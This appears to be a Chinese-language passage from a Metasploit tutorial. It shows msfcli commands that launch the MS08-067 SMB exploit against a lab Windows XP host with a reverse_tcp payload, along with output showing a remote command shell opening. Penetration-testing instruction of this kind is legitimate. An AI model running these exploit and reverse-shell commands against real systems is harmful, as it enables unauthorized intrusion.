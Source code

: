 在接下来的部分中，我们将演示其中一些命令的实际使用。了解它们在框架内不同模块集上的基本用法对您来说很重要。

# MSFCLI

与 MSFConsole 接口一样，CLI 提供了对可以在任何一个实例上启动的各种模块的广泛覆盖。但是，它缺少 MSFConsole 的一些高级自动化功能。

要访问`msfcli`，请使用终端执行以下命令：

```
 # msfcli -x 
```

这将显示与 MSFConsole 类似的所有可用模式，以及用于选择特定模块和设置其参数的使用说明。请注意，所有变量或参数都应遵循`param=value`的约定，并且所有选项都区分大小写。我们介绍了一个选择和执行特定漏洞的小练习：

```
 # msfcli windows/smb/ms08_067_netapi O
    [*] Please wait while we load the module tree...

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       RHOST                     yes       The target address
       RPORT    445              yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, 
SRVSVC) 
```

在上述命令末尾使用`O`指示框架显示所选漏洞的可用选项。以下命令使用`RHOST`参数设置目标 IP：

```
 # msfcli windows/smb/ms08_067_netapi RHOST=192.168.0.7 P
    [*] Please wait while we load the module tree...

    Compatible payloads
    ===================

       Name                             Description
       ----                             -----------
    generic/debug_trap               Generate a debug trap in the target process
    generic/shell_bind_tcp           Listen for a connection and spawn a command shell
    ... 
```

最后，在使用`RHOST`参数设置目标 IP 后，是时候选择兼容的有效负载并执行我们的攻击：

```
 # msfcli windows/smb/ms08_067_netapi RHOST=192.168.0.7 LHOST=192.168.0.3 PAYLOAD=windows/shell/reverse_tcp E
    [*] Please wait while we load the module tree...
    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.0.7
    [*] Command shell session 1 opened (192.168.0.3:4444 -> 192.168.0.7:1027)

    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:WINDOWSsystem32> 
```
